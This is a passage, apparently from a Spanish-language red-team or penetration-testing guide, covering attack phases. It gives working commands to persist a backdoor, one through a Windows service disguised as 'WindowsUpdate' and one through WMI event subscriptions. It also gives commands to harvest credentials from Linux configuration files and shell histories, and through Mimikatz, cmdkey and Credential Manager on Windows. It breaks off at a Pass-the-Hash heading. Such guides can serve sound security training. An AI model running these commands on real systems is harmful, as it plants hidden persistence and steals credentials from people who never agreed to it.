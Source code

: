 #### Servicios Maliciosos

```powershell
# Crear servicio persistente
sc create "WindowsUpdate" binpath="C:\backdoor.exe" start=auto
sc start "WindowsUpdate"
```

#### WMI Event Subscriptions

```powershell
# Crear event subscription para persistencia
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="BotFilter47", EventNameSpace="root\cimv2", QueryLanguage="WQL", Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"

wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="BotConsumer23", ExecutablePath="C:\backdoor.exe", CommandLineTemplate="C:\backdoor.exe"
```

## Fase 4: Movimiento Lateral

### Enumeración de Credenciales

#### Linux Credential Harvesting

```bash
# Buscar archivos de configuración con passwords
grep -r "password" /etc/ 2>/dev/null
find / -name "*.conf" -exec grep -l "password" {} \; 2>/dev/null

# Revisar historial de comandos
cat ~/.bash_history
cat ~/.mysql_history
```

#### Windows Credential Harvesting

```powershell
# Extraer hashes con Mimikatz (simulado)
# sekurlsa::logonpasswords
# sekurlsa::wdigest

# Buscar credenciales guardadas
cmdkey /list

# Credential Manager
rundll32.exe keymgr.dll,KRShowKeyMgr
```

### Técnicas de Lateral Movement

#### Pass-the-Hash (Windows)
